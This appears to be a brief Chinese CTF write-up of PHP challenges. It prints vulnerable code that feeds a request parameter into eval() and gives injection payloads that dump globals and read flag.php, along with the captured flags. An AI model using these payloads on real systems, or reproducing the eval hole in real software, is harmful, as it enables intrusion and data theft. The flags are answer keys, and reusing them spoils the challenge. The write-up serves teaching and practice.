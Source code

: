 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`
# 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
# 爆破-3
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3ODY5NjQzMjgsNDU5Mzk2MTU1XX0=
-->